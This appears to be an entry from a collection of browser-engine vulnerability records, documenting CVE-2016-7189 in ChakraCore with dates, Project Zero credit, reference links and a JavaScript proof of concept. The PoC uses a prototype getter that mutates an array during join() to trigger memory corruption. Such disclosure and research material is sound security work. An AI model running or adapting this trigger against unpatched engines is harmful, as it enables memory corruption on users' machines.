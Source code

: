 # CVE-2016-7189

- Report: Aug 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var t = new Array(1,2,3);
t.length = 100;
var o = {};
  Object.defineProperty(o, '3', {
    get: function() {

      t[0] = {};
      for(var i = 0; i < 100; i++){
          t[i] = {a : i};
      }
      return 7;
    }
  });

t.__proto__ = o;

var j = [];
var s = j.join.call(t);
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-119)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=919)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/097edcd2e452e423b5f83b64b47f6bb7f5cd520d#diff-49bb5a3c5aa249e3dcefd245e91df5f7R4365)
